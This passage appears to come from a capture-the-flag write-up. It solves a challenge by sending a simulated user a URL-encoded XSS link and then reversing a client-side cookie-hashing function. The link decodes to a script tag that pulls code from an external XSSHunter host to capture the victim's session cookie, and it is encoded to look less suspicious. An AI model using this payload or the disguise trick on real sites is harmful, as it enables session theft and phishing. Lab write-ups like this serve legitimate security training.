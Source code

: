 Hmm... looks like he knows something's fishy here. We'll need to find a way to make the link less suspicious so Girugamesh will click it. He said something about the ID having words... maybe we can URL-encode it to get rid of them? After URL-encoding, our new payload is:

`http://192.168.132.145/?%3c%73%63%72%69%70%74%20%73%72%63%3d%68%74%74%70%73%3a%2f%2f%64%61%76%65%2e%78%73%73%2e%68%74%3e%3c%2f%73%63%72%69%70%74%3e`

Girugamesh happily clicks our link now, and the XSS payload fires! We can use the generated XSSHunter report to view information gathered from the attack, including his session cookie.

![He clicked it!](/resources/ists15/37.PNG)

Our XSSHunter report reveals a cookie named `flag` with a value of `... ..-. ..- --.. ..- - ...- -- ... - -. --.. ..- ..-. .-. .--- ..- -.-- -.-- ..- -.- .--.`. Is that... Morse code? Whatever, let's load it into our browser and see what the logged-in version of the page looks like.

![Welcome!](/resources/ists15/38.PNG)

All we get is a welcome message and a cheeky YouTube video. Perhaps the flag is within the Morse code itself? Running the cookie through a Morse code translator reveals the string `SFUZUTVMSTNZUFRJUYYUKP`, but this value is rejected when we try to enter it as a flag. There must be something else going on here!

Remember our login page? Maybe there's something there that can indicate how our cookie is generated. Taking a look at the login page source reveals an algorithm for generating the cookie client-side, which replaces our password and is sent to the server.

```javascript
function hash_password(pwField) {
	hash = pwField.value.toLowerCase().split('');

	caesarian_shift(hash, 13);
	rotate_right(hash, 37);
	swap_chars(hash, 'g', 'i');
	swap_chars(hash, 'r', 'u');
	swap_chars(hash, 'g', 'a');
	swap_chars(hash, 'm', 'e');
	swap_chars(hash, 's', 'h');
	hash = morse_code(hash);

	pwField.value = hash.join(' ').replace(/ +/g, ' ');
}
````
